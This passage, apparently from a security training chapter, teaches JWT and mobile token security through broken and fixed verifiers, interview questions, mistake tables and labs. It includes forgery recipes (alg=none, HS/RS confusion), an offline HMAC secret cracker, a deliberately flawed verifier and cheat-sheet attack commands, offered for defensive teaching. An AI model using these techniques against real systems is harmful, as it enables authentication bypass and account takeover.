    return base64.urlsafe_b64encode(raw).rstrip(b"=").decode()   # base64url: no padding

secret = b"a-32-byte-secret-from-a-csprng!!"        # 32 bytes; see section 5.4
now    = int(time.time())

header = {"alg": "HS256", "typ": "JWT", "kid": "demo-1"}
claims = {"iss": "https://issuer.lab.local", "sub": "alice",
          "aud": "com.example.app", "iat": now, "nbf": now,
          "exp": now + 900, "jti": base64.urlsafe_b64encode(b"12345678").decode(),
          "scope": "notes.read"}

signing_input = f"{seg(header)}.{seg(claims)}"      # the dot IS part of the signed data
signature     = hmac.new(secret, signing_input.encode("ascii"), hashlib.sha256).digest()
token         = f"{signing_input}.{base64.urlsafe_b64encode(signature).rstrip(b'=').decode()}"

print(token)
print()
print("Now read the payload back, with no key at all:")
print(base64.urlsafe_b64decode(token.split(".")[1] + "==").decode())
```

The second half of the output is the lesson. The payload comes back in plaintext, with no
key, because base64url is an encoding. If that surprises you, re-read §3.4 before going any
further — every remaining example depends on internalising it.

### 9.2 Intermediate — the broken verifier and its correct counterpart

The highest-value pair in the chapter:
[`examples/01-broken-verifier.py`](examples/01-broken-verifier.py) and
[`examples/02-correct-verifier.py`](examples/02-correct-verifier.py).

Both take a token and return `(accepted, claims, reason)`. The diff between them is the
whole of §5.

The broken one, reduced to its essence:

```python
alg = str(header.get("alg", "")).lower()

if alg == "none":                                    # FLAW 1
    return True, claims, "accepted: alg=none"

kid_key = _load_key_by_kid(header.get("kid"), keydir)   # FLAW 4: kid is a file path

if alg.startswith("hs"):                             # FLAW 2 + FLAW 3
    key = kid_key if kid_key is not None else LEGACY_HMAC_SECRET
    expected = b64url_encode(hmac.new(key, signing_input, hashlib.sha256).digest())
    if expected == signature_b64:                    # FLAW 8: not constant time
        return True, claims, "accepted"

if alg.startswith("rs"):
    pub = serialization.load_pem_public_key(pub_pem)  # SAME key variable as the HMAC path
    pub.verify(...)
    return True, claims, "accepted"

# FLAWS 5, 6, 7 live in what is NOT here: no exp, no iss, no aud.
```

The correct one:

```python
ALLOWED_ALGS = frozenset({"RS256", "HS256"})         # decided in advance -> fixes 1 and 2

alg = header.get("alg")
if not isinstance(alg, str) or alg not in ALLOWED_ALGS:
    return False, None, "alg not in the allow-list"

key, err = trust.key_for(alg, header.get("kid"))     # typed maps -> fixes 2 and 4
if err:
    return False, None, f"key selection failed: {err}"

# ... constant-time signature check ...

if claims.get("iss") != trust.issuer:                # fixes 6
    return False, None, "iss mismatch"
if trust.audience not in aud_list:                   # fixes 6
    return False, None, "aud mismatch"
exp = claims.get("exp")
if not isinstance(exp, (int, float)):                # fixes 5 -- REQUIRED, not optional
    return False, None, "no numeric exp -- refused"
if now > exp + max_skew:
    return False, None, "expired"
```

> **🧠 Mental Model — read the diff, not the files**
> The correct verifier is about 40% longer, and most of that is comments. The security
> difference is: one frozenset, two dictionaries instead of one variable, four string
> comparisons, one `isinstance` check, and `hmac.compare_digest` instead of `==`.
>
> That is the whole thing. JWT verification failures are not a cryptography problem. They
> are a handful of comparisons that were never written, in code that looks finished
> because the hard-looking part — the signature — was done correctly.

### 9.3 Advanced — the attack gauntlet

[`labs/gauntlet/run-gauntlet.py`](labs/gauntlet/run-gauntlet.py) with
[`labs/gauntlet/issuer.py`](labs/gauntlet/issuer.py). It mints from a throwaway keypair,
builds eight forgeries, submits all nine tokens to both verifiers, and fails the run if any
cell disagrees with the expected matrix.

The three attack constructions that are worth reading closely:

```python
# alg=none. Note the TRAILING DOT -- a zero-length third segment. A token without it
# is two segments and most verifiers reject it for the wrong reason, leading you to
# conclude the attack failed when you never actually sent it.
def unsigned(header, claims):
    return f"{seg(header)}.{seg(claims)}."

# HS/RS confusion. The "secret" is the issuer's PUBLIC key, which is published at the
# JWKS endpoint. No key was stolen; public bytes were used for a second purpose.
hs256({"alg": "HS256", "typ": "JWT", "kid": RSA_KID}, claims, pub_pem)

# Offline secret recovery, in six lines and with no server involved at any point.
def crack_hmac_secret(token, wordlist):
    header_b64, payload_b64, sig_b64 = token.split(".")
    signing_input = f"{header_b64}.{payload_b64}".encode("ascii")
    want = b64url_decode(sig_b64)
    for candidate in wordlist:
        if hmac.compare_digest(
                hmac.new(candidate.encode(), signing_input, hashlib.sha256).digest(), want):
            return candidate
    return None
```

That last function is the whole of §5.4. Every term in the verification equation except the
secret is inside the token, so a captured HS256 token is a self-contained cracking target
with no rate limit and no logging.

Measured output is in [§7.4](#74-the-gauntlet--measured-output).

### 9.4 Real application — the Android token store, broken and fixed

[`examples/03-BrokenTokenStore.java`](examples/03-BrokenTokenStore.java) and
[`examples/04-HardenedTokenStore.kt`](examples/04-HardenedTokenStore.kt) are the same class
with nine flaws and without them. The most consequential pair:

```java
// examples/03-BrokenTokenStore.java — FLAW 1 and FLAW 2
public String userIdFromIdToken(String idToken) {
    String[] parts = idToken.split("\\.");
    String payload = new String(
            Base64.decode(parts[1], Base64.URL_SAFE | Base64.NO_WRAP),
            StandardCharsets.UTF_8);
    JSONObject claims = new JSONObject(payload);
    return claims.getString("email");        // never touches parts[2]
}
```

Four of the five steps are right. Splitting, decoding, parsing, reading — all correct. The
signature is never consulted, and `email` is the wrong account key even if it were.

The fix is not a better version of that method. **The method is deleted**, and the id_token
is sent to the backend, which verifies it and returns a session:

```kotlin
// examples/04-HardenedTokenStore.kt
fun exchangeIdTokenForSession(idToken: String, backend: String): Result<String> {
    val body = FormBody.Builder().add("id_token", idToken).build()
    val request = Request.Builder().url("$backend/api/v1/session").post(body).build()
    return try {
        http.newCall(request).execute().use { response ->
            if (!response.isSuccessful) {
                return Result.failure(IOException("session exchange: HTTP ${response.code}"))
            }
            Result.success(JSONObject(response.body?.string().orEmpty()).getString("session_id"))
        }
    } catch (e: IOException) { Result.failure(e) }
}
```

> **🧠 Mental Model — why the client should not verify**
> "The client should verify the id_token properly" sounds like the right lesson and it is
> the wrong one. A client that verifies locally and then tells the backend *"the user is
> alice@example.com"* has built a backend that trusts the client's conclusion. The
> verification was real and completely worthless.
>
> The party that **acts** on the answer must be the party that **checks** it. On mobile
> that is the backend, every time.

Two more from the pair, because they are the ones testers can demonstrate in minutes:

```java
// broken: logout that only forgets
public void logout() {
    prefs.edit().clear().apply();
    // no /revoke. The refresh token is valid for another 90 days.
}
```
```kotlin
// fixed: revoke FIRST, clear regardless, and be honest when it fails
fun logout(revocationEndpoint: String, clientId: String): Boolean {
    val refresh = refreshToken()
    var revoked = false
    if (refresh != null) {
        val body = FormBody.Builder()
            .add("token", refresh.expose())
            .add("token_type_hint", "refresh_token")
            .add("client_id", clientId).build()
        revoked = try {
            http.newCall(Request.Builder().url(revocationEndpoint).post(body).build())
                .execute().use { it.isSuccessful }
        } catch (e: IOException) { false }
    }
    prefs.edit().clear().commit()      // commit, not apply -- the user is leaving
    return revoked
}
```

The order is the part people get backwards. Clear-then-revoke loses the refresh token when
the network call fails, leaving a credential that is both immortal and unreachable.

And the unloggable token type, which turns "be careful what you log" into a compile-time
property:

```kotlin
@JvmInline
value class Token(private val raw: String) {
    fun expose(): String = raw
    override fun toString(): String = "Token(${raw.length} chars, redacted)"
}
```

Zero runtime cost, and `Log.d(TAG, "token=$token")` now prints
`token=Token(662 chars, redacted)`.

### 9.5 Enterprise — sender-constrained tokens with DPoP

[`examples/05-DpopInterceptor.kt`](examples/05-DpopInterceptor.kt) is a complete OkHttp
interceptor: it generates a P-256 keypair in the Android Keystore, builds a proof JWT per
request, and attaches it.

The two details that break every hand-rolled implementation, both handled there:

```kotlin
// 1. The JWK thumbprint (RFC 7638) is over the REQUIRED members only, sorted
//    lexicographically, with NO whitespace. For EC that is crv, kty, x, y -- in that
//    order. Get the order or the spacing wrong and your thumbprint will not equal the
//    server's, cnf.jkt will not match, and the error will tell you nothing useful.
private fun publicJwk(pub: ECPublicKey): String {
    val x = Base64.encodeToString(fixedWidth(pub.w.affineX.toByteArray(), 32), B64)
    val y = Base64.encodeToString(fixedWidth(pub.w.affineY.toByteArray(), 32), B64)
    return """{"crv":"P-256","kty":"EC","x":"$x","y":"$y"}"""
}

// 2. Java's Signature emits ASN.1 DER. JOSE ES256 requires raw r||s, 32 bytes each.
//    Send the DER and every server rejects the proof with an error that looks like a
//    key problem.
private fun derToJose(der: ByteArray, width: Int): ByteArray { ... }
```

And `fixedWidth`, which looks like pedantry and is not:

```kotlin
// BigInteger.toByteArray() emits a leading 0x00 when the high bit is set and drops
// leading zeros otherwise, so the result is 31, 32 or 33 bytes. JOSE requires exactly
// the coordinate width. Skipping this produces thumbprints that are correct roughly 99
// times out of 100 -- the worst possible failure mode, because it passes testing.
private fun fixedWidth(raw: ByteArray, width: Int): ByteArray { ... }
```

The client half is the easy half. Reviewing a DPoP deployment means testing the **server**,
with the four requests in §3.11 — and test 2, the Bearer downgrade, is the one that decides
whether any of it is real.

---

## 10. Common Interview Questions

### Beginner

**Q. What is a token, and why not just send the password every time?**
A token is a disposable credential issued after a one-time check of a durable one. Sending
the password on every request means it travels through every proxy and log repeatedly, it
grants everything the account can do, it must be stored on the device to be re-sent, and
revoking it breaks every other place it is used. A token is narrow, expiring, replaceable,
and revocable without touching the password.

**Q. Is a JWT encrypted?**
No. The header and payload are **base64url-encoded**, which is a transport encoding with no
key and no confidentiality. `echo $JWT | cut -d. -f2 | base64 -d` reads the claims. The
signature makes the claims **authentic**, not **secret**. A JWT whose payload is genuinely
encrypted is a JWE and has five segments rather than three.

**Q. What are the three parts of a JWT?**
Header, payload, signature, joined by dots, each base64url-encoded. The header names the
algorithm and, usually, the key. The payload is the claims. The signature covers the exact
ASCII bytes of `header_b64 + "." + payload_b64` — not the parsed JSON, which is why you must
never re-serialise a token you intend to verify.

**Q. What is the difference between an access token and a refresh token?**
The access token is presented to resource servers on every request and lives for minutes.
The refresh token is presented only to the authorization server, to obtain new access
tokens, and lives for days or months. The refresh token is the more valuable of the two by
a wide margin.

**Q. What does `Bearer` mean in `Authorization: Bearer ...`?**
Possession is sufficient. There is no accompanying proof of identity, no binding to a
device, a key, or a connection. A copy of the token works from anywhere.

### Intermediate

**Q. What is `alg: none` and why is it dangerous?**
`none` is a registered JWT algorithm meaning "unsigned", intended for cases where integrity
comes from elsewhere. It is dangerous because a verifier that reads `alg` from the token to
decide how to verify it has asked the attacker how to check the attacker's work. Send a
token with `alg: none`, any claims you like, and an empty third segment; if it is accepted,
that is authentication bypass with no cryptography involved.

**Q. Explain HS/RS algorithm confusion.**
The issuer signs RS256, so the verifier holds the **public** key — a value published at the
JWKS endpoint. If the verifier picks the primitive from the token's `alg`, an attacker
changes it to HS256 and signs with the public key bytes as an HMAC secret. The verifier
loads the same bytes and computes the same HMAC. No key was stolen; a public value was used
for a second purpose. Two fixes: an algorithm allow-list, and typed key storage so an RSA
public key is not reachable from the HMAC code path.

**Q. Why can a mobile app not verify an HS256 token?**
Because with HMAC, verifying and minting use the same key. An app that can verify can mint,
so shipping the key would let every user forge tokens for every other user. And an APK
cannot hold a secret — see [45-OAuth §1](../45-OAuth/README.md). An `id_token` signed with
HS256 is a design error before you look at anything else.

**Q. Where should an Android app store a token?**
Access token: in memory, re-fetched on cold start, if the UX allows. Refresh token:
`EncryptedSharedPreferences`, whose master key lives in the Android Keystore. ID token:
nowhere — consume it and discard it. And the severity of getting this wrong depends on the
token, not the location: a short-lived, narrowly-scoped token in plain SharedPreferences on
a stock device is not a finding.

**Q. What does `aud` do and what happens if nobody checks it?**
`aud` names the intended recipient. If a resource server does not compare it, it accepts
any token that issuer signed — including one minted for a client the attacker registered
themselves. That is the "Sign in with X" account takeover: the attacker gets a victim to
sign into an innocuous app of theirs, receives a genuinely signed token for the victim's
identity, and replays it. Every signature check passes.

**Q. Is a long-lived token always bad?**
No, and saying so is how a report loses credibility. Refresh tokens are *designed* to be
long-lived, and a 90-day refresh token with rotation and reuse detection is a sound design.
The question is the combination: lifetime, scope, rotation, revocation and reachability. A
90-day refresh token with no rotation, broad scope, in plaintext, that survives logout, is
four findings. The same lifetime with rotation and reuse detection is a defensible product
decision.

### Senior

**Q. Why is revoking a JWT hard, and what are the real options?**
A JWT is verified locally against a cached public key, with no call to the issuer — that is
the entire performance argument for it. Revocation requires the resource server to know
something that happened after minting, which means asking somebody, which reintroduces the
state the JWT existed to avoid. Four honest options: short lifetimes (a bound on lateness,
not revocation, and right for most systems); a `jti` denylist (real, but every RS now needs
a shared low-latency store); a per-user "not valid before" timestamp (one integer per user
instead of one row per token, and it makes "log out everywhere" work); or opaque tokens with
introspection, which is admitting the trade and paying the round trip.

**Q. Rotation versus reuse detection.**
Rotation issues a new refresh token on every use and invalidates the old, bounding the
window. Reuse detection is where the value is: if a token is presented twice, a copy exists
somewhere it should not, and the correct response is to revoke the entire family. The server
cannot tell whether the attacker or the legitimate client went first, and does not need to.
It converts a silent permanent compromise into a loud bounded one, and the false-positive
cost is a re-login.

**Q. When would you choose opaque tokens over JWTs?**
When immediate revocation matters more than avoiding a round trip: banking, healthcare,
anything with a regulatory "terminate the session now" requirement. Also when the claims
are sensitive, since a JWT payload is readable by whoever holds it. Choose JWTs when many
resource servers must verify at high volume, when they must keep working if the AS is down,
and when nothing in the claims is secret. The common hybrid — short-lived JWT access tokens
plus an opaque refresh token — gets most of both and is evidence of a team that thought
about it.

**Q. What does DPoP actually change about severity?**
It makes the token alone insufficient, so an attacker who obtains the token but not the key
has nothing. That is a large realistic class: leaked logs, stolen backups, proxies, a
compromised resource server. It changes **nothing** against an attacker with code execution
in the app's process, who calls the same signing routine and gets valid proofs. So it
downgrades storage and transport findings substantially and does not touch instrumentation
findings at all. And it only counts if the server rejects the same token presented as
`Bearer` — that downgrade test is what separates a DPoP deployment from a DPoP-shaped
header.

**Q. A developer says "the token is safe, it is in the Keystore". What do you ask?**
What is *in* the Keystore. Almost always it is an AES key wrapping a token in
SharedPreferences, which is a genuine improvement against anyone who obtains a copy of the
file and no protection at all against code running in the process. Then ask what stops a
hooked getter, and whether a plaintext copy exists elsewhere — a cache file, a log line, an
in-memory database. [49-KeyStore §1.3](../49-KeyStore/README.md) is the extraction-versus-use
distinction this rests on.

### Staff Engineer

**Q. Design token handling for an Android banking app. Justify each decision.**
Authorization code with PKCE in a Custom Tab ([45-OAuth](../45-OAuth/README.md)). Access
tokens: RS256 JWTs, `typ: at+jwt`, 5–10 minute lifetime, minimal claims, scope narrowed per
API. Refresh tokens: opaque, rotated on every use with reuse detection revoking the family,
30-day absolute cap. All access tokens DPoP-bound, with the key generated in the Keystore
with `setIsStrongBoxBacked(true)` where available and a documented software fallback. Client
storage: access token in memory only; refresh token in `EncryptedSharedPreferences`;
`id_token` consumed and discarded. Both backup surfaces excluded via `dataExtractionRules`.
Logout revokes the refresh token first, then clears locally, and reports honestly when
revocation fails. Server-side: strict `alg` allow-list, typed key maps, `iss`/`aud`/`exp`
required, `jti` denylist plus a per-user not-valid-before timestamp so password change kills
every session, and step-up authentication for transfers rather than a long-lived
`payments.write` scope.

**Q. How do you migrate a symmetric HS256 estate to asymmetric RS256 with no downtime?**
Introduce `kid` first, if it is not already present — without it nothing else is possible,
and adding it is a compatible change. Then: generate the RSA keypair and publish the JWKS;
deploy verifiers that accept **both** `HS256` with the legacy `kid` and `RS256` with the new
one, with typed key maps so the two cannot cross; once every verifier is deployed and
confirmed, flip the issuer to RS256; wait one maximum token lifetime; remove `HS256` from
every allow-list; rotate the legacy secret to a dead value and monitor for its use, which
tells you whether any verifier was missed. The dangerous window is the middle one, because
a verifier accepting both families is exactly the condition algorithm confusion needs — the
typed key maps are what make it survivable, and they are not optional.

**Q. You are told to reduce token lifetime from 24 hours to 10 minutes. What breaks?**
Refresh volume rises by roughly 144x, so the token endpoint becomes a capacity and
availability concern it was not before. Any client that cached a token across a process
restart now fails on wake. Offline-capable features stop working past the window. Clock
skew that was invisible against a 24-hour window becomes visible against a 10-minute one.
Retry storms after an AS blip become self-amplifying. Mitigations: proactive refresh at
80% of lifetime with jitter; a bounded, jittered exponential backoff; a documented skew
allowance; and a staged rollout measuring 401 rates per client version, not a flag flip.

**Q. How do you detect token theft at scale?**
Refresh-token reuse detections, which are the strongest single signal and nearly free once
rotation exists. Impossible-travel on `jti` or `sid` across geographies. A device or DPoP
key thumbprint changing for a stable `sub`. Sudden scope-set changes for an account. A token
whose `jti` is not in the issuance log appearing at a resource server — that is forgery, not
theft, and it is the alarm that says one of §5's classes is live in production. Instrument
the issuance log and the resource servers with a shared `jti`, and most of this becomes a
join.

### Principal Engineer

**Q. Argue against JWTs for a system you are designing.**
The stateless property that JWTs are chosen for is usually a fiction by the time the system
ships. Revocation gets added, so there is a denylist. Fine-grained authorisation gets added,
so the resource server queries a database anyway. Claims go stale, so lifetimes shrink until
the refresh traffic approaches introspection traffic. At that point you have paid for a
signature verification per request, a JWKS distribution and rotation problem, a payload
readable by anyone holding the token, and an entire class of verification vulnerabilities —
in exchange for a statelessness you no longer have. For a single-team system with one
datacentre, opaque tokens with a fast session store are simpler, safer and often faster.
JWTs earn their place when the verifiers genuinely cannot reach the issuer: many services,
many teams, cross-organisation federation. Choose them for that, not by default.

**Q. Where does the token model break down entirely?**
Wherever the authorisation decision must reflect the present rather than the past. A token
is a **cached** authorisation decision, and every caching system has an invalidation
problem. Emergency access revocation, real-time fraud response, per-transaction risk
scoring, and regulated "terminate now" obligations all need a synchronous check. The mature
answer is not to abandon tokens but to make the cache lifetime a **risk-tiered policy**:
minutes for reading, seconds or a synchronous check for anything that moves money, and
step-up authentication for the top tier rather than a long-lived privileged scope.

**Q. Design token security for a 200-service estate where every team is different.**
Do not write a policy; remove the choice. Ship a verified verification library — one
implementation, one allow-list, typed key maps, mandatory `iss`/`aud`/`exp` — and make
using anything else fail CI. Centralise issuance behind one service so lifetime, scope and
claim minimisation are configuration rather than per-team code. Make the JWKS the only key
distribution channel and instrument every fetch. Then measure what is actually deployed:
scan production traffic for tokens with `alg` outside the allow-list, tokens with no `exp`,
and tokens whose `jti` is absent from the issuance log. **The failure mode of a 200-service
estate is not that somebody writes a bad verifier; it is that nobody knows how many
verifiers there are.** Inventory first, policy second.

**Q. How do you decide, on an engagement, whether a token finding is worth writing?**
By answering *"what did I learn that I did not already have?"* out loud, and then by asking
whether the attacker in the client's threat model could actually do it. My own token from my
own account: nothing, and it does not get written. A forged admin token accepted by the
server: everything, and it leads the report. A token that survives logout: I learned a
property of the system — the population of live tokens never shrinks — which is worth
writing even though the token was mine. The five conditions in §5.10 are the checklist, and
the discipline is that I must have evidence for the specific one I am claiming, not for
token handling in general.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| Mistake | Why it happens | Consequence |
|---|---|---|
| `jwt.decode(token)` and treating the claims as facts | The method returns claims and looks finished; "decode" and "verify" sound similar | Every claim is attacker-controlled. Total bypass. |
| Reading `alg` from the token to choose the verification method | The field exists and names an algorithm; dispatching on it feels like reading the protocol correctly | `alg: none` and HS/RS confusion, in one line |
| One key variable serving both HMAC and RSA paths | A single `key` is good design everywhere else | Algorithm confusion |
| An HMAC secret a human chose | "Secret" reads as "password"; the config field is called `JWT_SECRET` | Offline cracking with no rate limit, no lockout, no logging |
| `if (claims.exp && expired) reject` | Defensive coding; correct for every non-security optional field | Delete `exp` and the check never runs |
| Never comparing `aud` | The library needs an extra argument, and `verify_aud: False` makes a test pass | Any token from that issuer is a skeleton key |
| Using `email` as the account key | It is human-readable and convenient | Account takeover via any IdP that does not verify addresses. The key is `(iss, sub)` |
| Sending the `id_token` to the API | The two tokens look identical and arrive together | Audience confusion; proves the API does not check `aud` |
| Logout that only clears local state | It "works" — the login screen appears | Tokens stay valid for weeks. §3.10 |
| No refresh-token rotation | It is more code, and nothing visibly breaks without it | One theft is permanent access |
| Putting PII or secrets in the payload | It is convenient and "the token is signed" | The payload is readable by everyone who holds the token |
| A hardcoded AES key "encrypting" the token store | They knew plaintext was bad and reached for the nearest fix | Break-once-run-everywhere: one extraction decrypts every user on every device |
| Prefix or substring matching on `iss` | It handles staging and production in one line | `https://issuer.example.com.attacker.example/` matches |
| A generous clock skew to fix a flaky test | The test passes | Every token's life is extended by that amount |
| Forgetting `<device-transfer>` in `dataExtractionRules` | The cloud-backup section was the one they read about | The token store is excluded from Google's servers and not from a phone-to-phone migration |

### 11.2 Pentester mistakes

| Mistake | Why it happens | Do this instead |
|---|---|---|
| **Reporting "token stored in SharedPreferences" as a finding** | It is easy to find and looks technical | Apply §5.10's five conditions and produce evidence for the one you are claiming |
| Concluding from the token's header that the server is secure | `alg: RS256` looks reassuring | The header says what the **issuer** did. Send a forgery to learn what the **verifier** accepts |
| Testing `alg: none` and stopping there | It is the famous one | Six more classes exist, and three of them (§5.5–§5.7) involve no forgery at all |
| Forgetting the trailing dot on an `alg: none` token | The two-segment version looks complete | `header.payload.` — the third segment is empty, not absent |
| Not establishing a baseline before forging | Eagerness | Confirm the **unmodified** token returns 200 first, or every 401 is uninterpretable |
| Recording a 403 as "blocked" | It is not a 200 | A 403 means the token was **accepted** and authorisation then failed. Your forgery worked |
| Pasting a client's token into a JWT decoder website | It is one click | Decode locally. `scripts/jwt-analyse.py` cannot open a socket, by construction |
| Trying to crack an RS256 token | Cracking worked last time | No wordlist contains a private key. Try algorithm confusion instead |
| Writing "the secret is strong" after a failed crack | The tool said not found | *"Not recovered from N candidates in T seconds."* You measured the wordlist |
| Skipping the logout replay test | It feels too simple to be productive | Three requests and one button press. Frequently a High |
| Only testing the access token | It is the one in the header | The refresh token is the crown jewel. Test rotation, reuse detection and revocation |
| Concluding "no tokens stored" from an unrooted shell | The sweep came back empty | The shell could not look. `token-storage-sweep.sh` prints its access level first for this reason |
| Analysing a token from a real account | It was in the traffic | Chapter 46's standing rule: every token you handle is one you minted or that was issued to a test account in scope |

### 11.3 Reverse engineer mistakes

| Mistake | Why it happens | Do this instead |
|---|---|---|
| Searching for `TokenManager` | It is what you would call it | R8 renamed it to `a.b.c`. Navigate by platform API: `Base64.decode`, `putString`, `Authorization` |
| Assuming the app verifies because a JWT library is linked | The dependency is present | Find the actual call. `JWT.decode()` and `JWT.require().build().verify()` are different methods |
| Missing hand-rolled JOSE | There is no library to grep for | `split("\\.")` plus `Base64.decode(x, 8)` is the signature. The `8` is `URL_SAFE` |
| Giving up when strings are encrypted | Nothing greppable remains | Claim names (`sub`, `exp`, `aud`) are part of a **contract with the server** and cannot be renamed. They are always there |
| Reading only `classes.dex` | It is the obvious file | Multidex, and split APKs. [38-TamperDetection](../38-TamperDetection/README.md) measured an app showing zero controls in `base.apk` because its code shipped in splits |
| Trusting the decompiler | The Java looks clean | [56-JADX](../56-JADX/README.md) measured 2,104 refused methods where the console reported 61 errors, and a case where decompiled Java returns 100 while the bytecode returns 105 |
| Ignoring the native libraries | Java is where apps are written | Flutter puts everything in `libapp.so`. `strings` finds the claim names even there |
| Concluding a token in `strings.xml` is exploitable | A JWT in the APK looks like a jackpot | It is usually an expired test fixture. Decode it — its `iss` and `aud` map the identity infrastructure, which is the real value |

---

## 12. Hands-on Labs

Four labs of increasing difficulty. Lab 02 is the centrepiece — it is the gauntlet, and it
is the thing to do first if you only do one.

| Lab | Title | Difficulty | What you build | What you learn |
|---|---|---|---|---|
| 01 | [Anatomy of a token](labs/lab-01-anatomy-of-a-token.md) | Beginner | A JWT, by hand, with no library | The format stops being magic. Opaque versus structured, and why the distinction redirects your whole approach |
| 02 | [The JWT attack gauntlet](labs/lab-02-the-jwt-attack-gauntlet.md) | Intermediate–Advanced | A local issuer, a broken verifier, a correct verifier, and eight forgeries | Every failure class in §5, executed, with the fixed verifier as the control |
| 03 | [Tokens at rest](labs/lab-03-tokens-at-rest.md) | Intermediate | A vulnerable Android token store, and the sweep that finds it | Where tokens actually land on a device, and how to grade a hit by reachability rather than presence |
| 04 | [CTF: The token that outlived its owner](labs/lab-04-ctf-the-token-that-outlived-its-owner.md) | Advanced | The whole system: issuer, resource server, app | Four independent paths to the flag, each failing at a different layer. Honest severity under pressure |

> **⚠️ Safety rule for every lab in this chapter**
> **Every token you handle is one you minted yourself.** All four labs run against a local
> issuer you build ([`labs/gauntlet/issuer.py`](labs/gauntlet/issuer.py)), with a keypair
> generated at the start of the run and destroyed at the end. Do not extract, decode or
> analyse a token belonging to a real account — not yours, not anyone's. `issuer.py`
> refuses to write key material into any directory that looks like a repository, and
> `run-gauntlet.py` wipes its workdir on exit.

Boundary note: [45-OAuth](../45-OAuth/README.md) already owns the interception, PKCE and
scheme-hijacking labs, and its CTF covers audience confusion from the *flow* side. Nothing
here restages them — lab 04 attacks the same estate from the *token* side, and the two are
complementary rather than duplicative.

---

## 13. Summary

### 13.1 Key points

- A token is a **cached authorisation decision**. Every property that matters follows from
  that: it can go stale, it can be copied, and it must expire.
- **Bearer means possession is sufficient.** The bytes *are* the authorisation. This is the
  amplifier that turns every storage, transport and logging weakness in this repository
  into account access.
- A JWT is three base64url segments. **The payload is encoded, not encrypted** — anyone
  holding the token reads every claim with one command and no key.
- **It is base64url, not base64.** Two characters differ, `=` padding is stripped, and a
  `+` or `/` in a segment is a fingerprint that someone used the wrong encoder.
- **Opaque versus structured changes your whole approach.** Opaque tokens cannot be forged
  offline at all — no `alg:none`, no confusion, no cracking. Count the dots first.
- The signature covers the **exact ASCII bytes** of `header_b64 + "." + payload_b64`. Never
  re-serialise a token you intend to verify.
- **`alg` is attacker-controlled.** A verifier that reads it to decide how to verify has
  asked the attacker how to check the attacker's work. One allow-list closes three failure
  classes.
- **Keys must be typed.** A public key reachable from the HMAC code path is algorithm
  confusion waiting to happen, and no amount of care in the comparison prevents it.
- **`kid` is attacker-controlled data used to locate a key.** Traversal, SQL injection and
  SSRF all live there. Make it a dictionary lookup and nothing else.
- **`jku`, `x5u`, `jwk` and `x5c` let the token name its own key.** Ignore them.
- **Half the failure classes involve no forgery.** Missing `exp`, unchecked `iss`, unchecked
  `aud` — the gauntlet's A6 and A7 are genuinely signed tokens, and the broken verifier
  accepts both.
- **Rotation bounds the window; reuse detection is where the value is.** A refresh token
  presented twice means a copy exists somewhere it should not, so revoke the family.
- **Revoking a JWT is genuinely hard**, and the honest options are short lifetimes, a `jti`
  denylist, a per-user not-valid-before timestamp, or opaque tokens.
- **Logout usually does not revoke.** Three requests and one button press find it, and it is
  frequently a High.
- **DPoP and mTLS make possession insufficient** — and do nothing against code execution in
  the process.
- **A captured token from your own test account is not a finding.** It becomes one when it
  is over-scoped, long-lived, replayable after logout, accepted without verification, or
  readable by another app — and you have evidence for the specific one you are claiming.
- The header tells you what the **issuer** did. Only sending a forgery tells you what the
  **verifier** accepts.

### 13.2 Mind map



### 13.3 Condensed cheat sheet

| Question | Command or answer |
|---|---|
| Is it a JWT? | Count the dots. 3 = JWS, 5 = JWE, anything else = opaque |
| Read the payload | `echo $JWT \| cut -d. -f2 \| tr '_-' '/+' \| base64 -d` |
| Full analysis, offline | `python3 -B scripts/jwt-analyse.py --token "$T"` |
| Prove it never transmits | `python3 -B scripts/jwt-analyse.py --self-test` |
| Crack an HS* secret | `python3 -B scripts/jwt-weak-secret.py --token-file t.jwt --wordlist w.txt` |
| Grade a secret | `python3 -B scripts/jwt-weak-secret.py --grade "$SECRET"` |
| Run every attack | `python3 -B labs/gauntlet/run-gauntlet.py --workdir /tmp/ch46-lab` |
| Find it on a device | `bash scripts/token-storage-sweep.sh com.example.app` |
| Watch the app use it | `frida -U -f com.example.app -l scripts/token-hooks.js` |
| `alg: none` token | `header_b64 . payload_b64 .` — **keep the trailing dot** |
| HS/RS confusion | Re-sign as HS256 with the issuer's **public key bytes** as the secret |
| Test revocation | Capture → log out → replay. 200 = finding |
| Test rotation | Use RT1, use RT1 again, then use RT2. Fail/Fail = correct |
| Test DPoP | Strip the proof, use `Bearer`. 200 = the binding is optional = absent |
| Minimum HS256 key | 32 bytes, from a CSPRNG. RFC 7518 §3.2 |
| The claim that stops bearer semantics | `cnf` (RFC 7800): `jkt` for DPoP, `x5t#S256` for mTLS |
| The account key | `(iss, sub)`. Never `email`. Never `sub` alone |
| Is this a finding? | §5.10's five conditions, with evidence for the one you claim |

### 13.4 Quick revision

One line each. If you cannot answer without scrolling up, re-read the section.

1. What are the three segments of a JWT, and what exactly does the signature cover?
2. Name the two characters that differ between base64 and base64url.
3. Is a JWT payload encrypted?
4. What does a trailing dot with nothing after it mean?
5. Why can a mobile app not verify an HS256 token?
6. In HS/RS confusion, where does the attacker get the HMAC secret?
7. What is `kid` and why is it dangerous?
8. Name the four header members that let a token name its own key.
9. Why is `if (exp && expired) reject` broken?
10. What is `aud` and what is the attack when it is unchecked?
11. What is the correct account key, and why not `email`?
12. What does `cnf.jkt` mean?
13. Which test decides whether a DPoP deployment is real?
14. What happens when a refresh token is presented twice, under reuse detection?
15. Name the four honest options for revoking a JWT.
16. What does `logout()` do in most Android apps, and what does it not do?
17. Which of the access, refresh and ID tokens should never be sent to an API, and why?
18. Where should an Android app put a refresh token, and what does that protect against?
19. What does `EncryptedSharedPreferences` not protect against?
20. Name the five conditions that turn a captured token into a finding.
21. What is the question that settles a severity argument?
22. Why is a token's own header not evidence about the server?
23. How many candidates per second did pure-Python HMAC cracking manage in §5.4?
24. Which two gauntlet attacks involve no forgery at all?
25. Why was gauntlet attack A8 rejected by the broken verifier, and why does that matter?

---

## 14. References

Annotated. See [`references/README.md`](references/README.md) for the full list with a
related-chapters table.

### 14.1 RFCs — the token formats

- **RFC 7519 — JSON Web Token (JWT).** The claims set, the registered claims, NumericDate,
  and the `none` algorithm. Short and worth reading end to end.
- **RFC 7515 — JSON Web Signature (JWS).** The three-segment structure, the JOSE header,
  and the signing input. This is where "the signature covers `header_b64 + "." +
  payload_b64`" is normative.
- **RFC 7516 — JSON Web Encryption (JWE).** The five-segment form. Read it to know what a
  genuinely encrypted token looks like.
- **RFC 7517 — JSON Web Key (JWK).** The key format and the JWKS document.
